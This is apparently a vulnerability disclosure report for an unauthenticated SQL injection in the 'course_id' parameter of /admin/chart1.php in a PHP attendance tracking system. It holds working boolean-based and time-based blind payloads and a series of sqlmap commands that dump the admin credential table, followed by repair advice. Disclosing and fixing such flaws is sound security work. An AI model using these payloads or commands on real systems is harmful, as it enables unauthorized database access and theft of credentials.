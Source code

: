 # 1000projects Attendance Tracking Management System PHP & MySQL Project V1.0 /admin/chart1.php SQL injection
# NAME OF AFFECTED PRODUCT(S)
+ Attendance Tracking Management System PHP & MySQL Project

## Vendor Homepage
+ [homepage](https://1000projects.org/attendance-tracking-management-system-php-mysql-project.html#google_vignette)

# AFFECTED AND/OR FIXED VERSION(S)
## submitter
+ takakie

## Vulnerable File
+ /admin/chart1.php

## VERSION(S)
+ V1.0

# Software Link
+ [Download Source Code](https://1000projects.org/wp-content/uploads/2022/04/Attendance-Tracking-Management-System.7z)

# PROBLEM TYPE
## Vulnerability Type
+ SQL injection

## Root Cause
+ A SQL injection vulnerability was found in the '/admin/chart1.php' file of the 'Attendance Tracking Management System PHP & MySQL Project' project. The reason for this issue is that attackers inject malicious code from the parameter 'course_id' and use it directly in SQL queries without the need for appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.

## Impact
+ Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

## DESCRIPTION
+ During the security review of "Attendance Tracking Management System PHP & MySQL Project", takakie discovered a critical SQL injection vulnerability in the "/admin/chart1.php" file. This vulnerability stems from insufficient user input validation of the 'course_id' parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain unauthorized access to databases, modify or delete data, and access sensitive information. Immediate remedial measures are needed to ensure system security and protect data integrity.

# No login or authorization is required to exploit this vulnerability
# Vulnerability details and POC
## ulnerability type:
+ boolean-based blind
+ time-based blind

## Vulnerability location:
+ 'course_id' parameter

## Payload:
```bash
---
Parameter: course_id (GET)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: action=attendance_report&course_id=-1789' OR 6501=6501 OR 'RCNG'='VbrV&date=2024-12-05

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: action=attendance_report&course_id=2' AND (SELECT 9149 FROM (SELECT(SLEEP(5)))NFWc) OR 'DZWH'='qURN&date=2024-12-05
---
```

## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:
```bash
sqlmap -u "192.168.10.5:2233/admin/chart1.php?action=attendance_report&course_id=2&date=2024-12-05" --cookie="PHPSESSID=l80tjseddr9a6vtiltdkocmspt" --batch --level=5 --risk=3 --dbms=mysql
```

![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1738905879158-a27afab8-b4d3-4db5-8c43-88e7b68580a0.png)

```bash
sqlmap -u "192.168.10.5:2233/admin/chart1.php?action=attendance_report&course_id=2&date=2024-12-05" --cookie="PHPSESSID=l80tjseddr9a6vtiltdkocmspt" --batch --level=5 --risk=3 --dbms=mysql --dbs
```

![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1738905918780-28033894-f35d-4448-b64a-4c696e476f2d.png)

```bash
sqlmap -u "192.168.10.5:2233/admin/chart1.php?action=attendance_report&course_id=2&date=2024-12-05" --cookie="PHPSESSID=l80tjseddr9a6vtiltdkocmspt" --batch --dbms=mysql -D attendance --tables
```

![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1738906359815-1db99442-6792-4b53-b401-f036e3c316a1.png)

```bash
sqlmap -u "192.168.10.5:2233/admin/chart1.php?action=attendance_report&course_id=2&date=2024-12-05" --cookie="PHPSESSID=l80tjseddr9a6vtiltdkocmspt" --batch --dbms=mysql -D attendance -T tbl_admin --columns
```

![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1738906346186-7117c1ff-29fe-48d5-a6c6-3d02df9e43f7.png)

```bash
sqlmap -u "192.168.10.5:2233/admin/chart1.php?action=attendance_report&course_id=2&date=2024-12-05" --cookie="PHPSESSID=l80tjseddr9a6vtiltdkocmspt" --batch --dbms=mysql -D attendance -T tbl_admin --dump
```

![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1738906414342-cd70b09c-6d13-4cf0-95d0-9de3bb456632.png)

| admin_id | admin_password | admin_user_name |
| --- | --- | --- |
| 1 | password | admin |
| 2 | password | admin123 |


true!!!

![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1738906516282-94a5930b-3705-4ee4-b8a7-cb9e6d7b68a6.png)

# Suggested repair
1. Use prepared statements and parameter binding:  
Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.
2. Input validation and filtering:  
Strictly validate and filter user input data to ensure it conforms to the expected format.
3. Minimize database user permissions:  
Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.
4. Regular security audits:  
Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.

